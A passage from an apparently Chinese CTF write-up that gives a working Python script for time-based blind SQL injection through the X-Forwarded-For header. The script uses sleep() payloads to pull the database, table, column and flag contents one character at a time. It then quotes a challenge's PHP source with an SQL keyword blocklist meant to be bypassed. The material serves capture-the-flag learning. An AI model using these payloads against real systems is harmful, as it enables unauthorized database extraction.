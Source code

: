```python
result = ''
url = 'http://ctf5.shiyanbar.com/web/wonderkun/index.php'

for i in range(1, 100):
    for key in ALL:
        # payload = "'+(sleep(5)) or '"
        # print(result)

        # payload = "'+(select case when (mid(database() from %d for 1)='%s') then sleep(6) else 1 end) or '"%(i, key)
        # web4
        # payload = "'+(select case when (mid(group_concat(table_name) from %d for 1)='%s') then sleep(10) else 1 end from information_schema.tables where table_schema='web4') or '"%(i, key)
        # client_ipflag   flag前面应该有个逗号，无法检测出来，不知道为什么
        # payload = "'+(select case when (mid(group_concat(column_name) from %d for 1)='%s') then sleep(10) else 1 end from information_schema.columns where table_name='flag') or '"%(i, key)
        # flag
        payload = "'+(select case when (mid(group_concat(flag) from %d for 1)='%s') then sleep(10) else 100 end from flag) or '"%(i, key)
        # print(payload)
        header = {"X-Forwarded-For": payload}
        # 5 time
        try:
            requests.get(url, headers=header, timeout=10)
        except Exception as e:
            result += key
            print(result)
            break
print(result)
```
<br>


### 因缺思汀的绕过
右键源代码，发现源码文件source.txt，访问得到源码
```php
error_reporting(0);

if (!isset($_POST['uname']) || !isset($_POST['pwd'])) {
	echo '<form action="" method="post">'."<br/>";
	echo '<input name="uname" type="text"/>'."<br/>";
	echo '<input name="pwd" type="text"/>'."<br/>";
	echo '<input type="submit" />'."<br/>";
	echo '</form>'."<br/>";
	echo '<!--source: source.txt-->'."<br/>";
    die;
}

function AttackFilter($StrKey,$StrValue,$ArrReq){
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){
        print "水可载舟，亦可赛艇！";
        exit();
    }
}

$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){
    AttackFilter($key,$value,$filter);
}

```